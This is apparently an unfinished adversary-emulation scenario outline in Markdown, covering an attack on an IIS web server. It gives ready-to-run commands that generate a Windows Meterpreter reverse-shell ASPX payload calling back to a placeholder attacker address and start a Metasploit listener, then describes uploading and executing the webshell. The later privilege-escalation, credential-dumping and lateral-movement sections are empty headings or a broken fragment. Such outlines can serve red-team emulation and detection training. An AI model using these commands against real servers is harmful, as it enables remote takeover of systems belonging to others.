 # Scenario 1

## I. Preface

## II. Contents

### Step 0 - Setup

#### 0.A - Craft payload

On the `Attack Platform`:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f aspx > /tmp/modules/session.aspx
```

#### 0.B - Start listening for connection
On the `Attack Platform`:
```
msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost <attacker_ip>;set lport 4444;run'
```

### Step 1 - Initial Access

The scenario begins when attacker successfully upload a reverse webshell `session.aspx` to the target's webserver. <br>
After opening the webshell, `Attack Platform` receives a connection from `IIS server`.

#### 1.A - Upload reverse shell
#### 1.B - Execute reverse shell

### Step 2  - Privilege Escalation

The attacker exploit `IIS server` 

### Step  - Domain Discovery and Credential Dumping
### Step  - Lateral Movement

## III. Cited Intelligence
